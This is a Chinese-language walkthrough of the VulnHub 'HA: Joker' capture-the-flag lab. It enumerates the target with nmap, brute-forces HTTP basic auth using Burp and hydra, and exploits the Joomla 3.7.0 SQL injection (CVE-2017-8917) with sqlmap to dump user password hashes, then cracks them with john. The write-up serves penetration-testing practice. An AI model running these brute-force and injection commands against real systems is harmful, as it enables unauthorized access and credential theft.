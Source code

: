 <center>joker</center>





[toc]







## joker

> vulnhub: [joker](https://www.vulnhub.com/entry/ha-joker,379/)



> Description: 

```shell
This lab is going to introduce a little anarchy. It will upset the established order, and everything becomes will become chaos. Get your face painted and wear that Purple suit because it’s time to channel your inner Joker. This is a boot2root lab. Getting the root flag is ultimate goal.

ENUMERATION IS THE KEY!!!!!  # 枚举是关键。
```





### 1. 信息收集

```shell
nmap -sP 172.16.168.128/24

Nmap scan report for 172.16.168.135
Host is up (0.00048s latency).
MAC Address: 00:0C:29:D8:05:4E (VMware)

# 端口扫描
nmap -p- 172.16.168.135 -A

22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ad:20:1f:f4:33:1b:00:70:b3:85:cb:87:00:c4:f4:f7 (RSA)
|   256 1b:f9:a8:ec:fd:35:ec:fb:04:d5:ee:2a:a1:7a:4f:78 (ECDSA)
|_  256 dc:d7:dd:6e:f6:71:1f:8c:2c:2c:a1:34:6d:29:99:20 (ED25519)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HA: Joker
|_http-server-header: Apache/2.4.29 (Ubuntu)
8080/tcp open  http    Apache httpd 2.4.29
|_http-title: 401 Unauthorized
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Please enter the password.
```

> `ip` 和`端口`







### 2. 爆破 密码

> 枚举是关键。

```shell
1. 80 端口  单页没有任何信息
2. 8080 端口 需要登陆用户名和密码
```

1. burp爆破

> burp 抓包

```shell
# 登陆信息 加密了
Authorization: Basic YWRtaW46MTIz

# 发送到Decoder  Base64解密
admin:123
用户名：密码=>base64加密

# 发送到intruder爆破 type: Custom inerator自定义模式
position： 1 => 用户名
position : 2 => :
position : 3 => 密码
# 可以使用字典。/usr/share/wordlists
# payload processing => Eecode => base64-decode 
start atttack

# 看长度不同的包，发送到decoder解密。就是我们的密码和账号
joker:hannah
```

2. hydra爆破

```shell
# -L 用户名文件 只能IP
hydra -l joker -P /usr/share/wordlists/rockyou.txt 172.16.168.135 -s 8080 http-get
```







### 3. web CMS

> wappalyzer: 插件查看使用的技术

![image-20241125092713352](./assets/image-20241125092713352.png)

> joomla: CMS

```shell
# joomal扫描
joomscan -u http://joker:hannah@172.16.168.135:8080/

[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 3.7.0

[+] Core Joomla Vulnerability
[++] Target Joomla core is not vulnerable

[+] Checking apache info/status files
[++] Readable info/status files are not found

[+] admin finder
[++] Admin page : http://joker:hannah@172.16.168.135:8080/administrator/

[+] Checking robots.txt existing
[++] robots.txt is found
path : http://joker:hannah@172.16.168.135:8080/robots.txt 
```

> 版本： `Joomla 3.7.0`

```shell
# 搜索漏洞 和 有一个靶场一样
searchsploit Joomla 3.7.0

# sql注入漏洞  php/webapps/42033.txt  查看漏洞信息
searchsploit -p 42033

# 详细信息
cat /usr/share/exploitdb/exploits/php/webapps/42033.txt

# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap:

sqlmap -u "http://joker:hannah@172.16.168.135:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```

```shell

# 数据库信息
available databases [2]:
[*] information_schema
[*] joomladb


# 2 指定数据库，获取表名
sqlmap -u "http://joker:hannah@172.16.168.135:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb --tables

# 3. dump #__users表列名
sqlmap -u "http://joker:hannah@172.16.168.135:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" --columns

# 4. dump #__users表数据 
sqlmap -u "http://joker:hannah@172.16.168.135:8080/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering] -D joomladb -T "#__users" -C username,password -dump
```

```shell
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| joomla   | $2y$10$eTtGk9VzhAt9Psr66eu3TONbi.fXL6A/ToAi7UnYNFLDv8n2I8K5u |
+----------+--------------------------------------------------------------+
```

````shell
# 解密
> 解密 password

```shell
touch pass.txt

john --show pass.txt

# hashid 识别是什么加密 hashid
sudo apt install hashid 
hashid pass.txt

# 指定 加密方法
sudo john 1.txt --format=bcrypt
sudo john --show pass.txt

?:snoopy # snoopy 密码
```
````

> 解不开，知道用户名还是用`burp爆破`

```shell
joomla/joomla
```



